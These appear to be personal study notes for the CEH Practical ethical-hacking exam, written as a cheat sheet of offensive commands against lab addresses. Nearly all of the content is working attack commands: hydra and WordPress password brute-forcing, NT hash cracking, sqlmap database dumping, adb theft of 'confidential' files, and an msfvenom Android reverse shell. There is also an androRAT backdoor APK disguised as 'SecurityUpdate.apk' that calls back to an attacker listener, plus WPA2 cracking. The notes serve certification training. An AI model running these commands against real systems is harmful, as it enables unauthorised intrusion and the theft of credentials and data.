 # **CEH Practical Notes**

Geolocation BillCipher

```
nmap --script vuln xx.xx.xx.xx
```

```
ldapsearch -h 10.10.10.25 -x -s base namingcontexts
ldapsearch -h 10.10.10.25 -x -b "cn=users,dc=CEHORG,dc=COM" "(objectclass=user)" | grep dn 
ldapsearch -x -b "dc=cehorg,dc=com" "*" -h 10.10.10.25 | awk '/dn: / {print $2}' 
```

dig AXFR yourdomain.com @ns


FQDN/Netbios name	nmap -p 445 --script smb-os-discovery 10.10.10.25 or nmap -T4 -p 445 -sC 10.10.10.25

DNS Computer Name	3389

SMB Message signing	nmap -T4 -p 445 -sC 10.10.10.25

whatweb www.certifiedhacker.com

```
john --format=NT hashes.txt
john --show --format=NT

https://hashes.com/en/decrypt/hash
https://crackstation.net/
```

```
cd Desktop/CEHtab13
cd Wordlist
hydra -L Usernames.txt -P Passwords.txt ftp://172.16.0.12
```

**Wireshark filters** 
```
http.request.method==POST
tcp.flags.syn == 1 and tcp.flags.ack == 0  Statistics=>Ipv4 Statistics=>Source and Destination Addresses
tcp.flags.syn == 1 DoS 
tcp.srcport == 8888 and tcp.dstport == 9999
```
```
snow.exe -C -p password Confidential.txt
```

```
apt install nfs-common
showmount -e 172.16.0.11
mkdir -p /mnt/linux
mount -t nfs 172.16.0.11:/home /mnt/linux
ls -l /mnt/linux
```

PhoneSploit
4 - shell

9 - copy file /storage/self/primary/DCIM/capture.png or /sdcard/Download/confidential.txt

```
adb connect 172.16.0.21 5555
adb shell
adb pull /sdcard/Documents/confidential.txt
```
```
msfvenom -p android/meterpreter/reverse_tcp --platform android -a dalvik LHOST=10.10.1.13 R > Desktop/Backdoor.apk 

msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST 10.10.1.13
exploit -j -z 

```
```
python3 androRAT.py --build -i 10.10.1.13 -p 4444 -o SecurityUpdate.apk 
python3 androRAT.py --shell -i 0.0.0.0 -p 4444 
```
```
https://www.sisik.eu/apk-tool
```
yersinia F2 x 1 q ==>Wireshark Transaction ID 0x643c9869

```
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" --dbs
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope --tables
sqlmap --batch -u "http://www.moviescope.com/viewprofile.aspx?id=1" --cookie="value" -D moviescope -T User_Login --dump
```

wpscan -U adam -P password.txt --url http://cehorg.com
```
msfconsole
use auxiliary/scanner/http/wordpress_login_enum
show options
set PASS_FILE password.txt
set RHOST 10.10.10.16
set RPORT 80
set TARGETURI http://cehorg.com
set USERNAME adam
set ENUMERATE_USERNAMES false
set verbose false
run
```
```
aircrack-ng WEP.pcap
aircrack-ng -a2 -w passwords.txt WPA2.pcap
```
```
https://www.shodan.io 
port:1883 ==> MQTT
ICS/SCADA systems port:502
```
